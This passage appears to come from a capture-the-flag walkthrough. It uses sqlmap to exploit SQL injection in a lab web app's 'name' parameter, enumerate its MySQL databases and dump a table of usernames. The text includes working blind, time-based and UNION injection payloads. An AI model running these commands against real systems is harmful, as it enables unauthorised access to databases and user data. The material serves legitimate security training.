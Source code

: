     
    
    oxdf@hacky$ sqlmap -r logs.php.request
    ...[snip]...
    [13:49:55] [INFO] GET parameter 'name' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    GET parameter 'name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
    sqlmap identified the following injection point(s) with a total of 67 HTTP(s) requests:
    ---
    Parameter: name (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: name=admin') AND 1081=1081 AND ('fFTi'='fFTi
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
        Payload: name=admin') OR (SELECT 8283 FROM (SELECT(SLEEP(5)))Uyda) AND ('jpVt'='jpVt
    
        Type: UNION query
        Title: Generic UNION query (NULL) - 3 columns
        Payload: name=admin') UNION ALL SELECT NULL,NULL,CONCAT(0x717a6b7171,0x42676d6d686b6b5452657553507950506a6f6e62636662536d796450626944475270784f62646e4a,0x71717a7071)-- -
    ---
    [13:51:32] [INFO] the back-end DBMS is MySQL
    [13:51:32] [CRITICAL] unable to connect to the target URL ('Broken pipe'). sqlmap is going to retry the request(s)
    web server operating system: Linux Ubuntu 18.04 (bionic)
    web application technology: Apache 2.4.29
    back-end DBMS: MySQL >= 5.0.12
    ...[snip]...
    

Next I’ll list the DBs:

    
    
    oxdf@hacky$ sqlmap -r logs.php.request --dbs
    ...[snip]...
    available databases [4]:
    [*] cmsmsdb
    [*] information_schema
    [*] logs
    [*] Overflow
    ...[snip]...
    

With `-D logs --tables` it shows only one table, `userlog`.

`-D logs -T userlog --dump` shows the logins:

    
    
    Database: logs
    Table: userlog
    [12 entries]
    +----+----------+-----------+
    | id | USERNAME | Lastlogin |
    +----+----------+-----------+
    | 1  | admin    | 11:00:00  |
    | 2  | editor   | 10:00:00  |
    | 3  | Mark     | 13:00:00  |
    | 4  | Diana    | 15:00:00  |
    | 5  | Tester   | 16:00:00  |
    | 6  | super    | 20:00:00  |
    | 7  | frost    | 08:00:00  |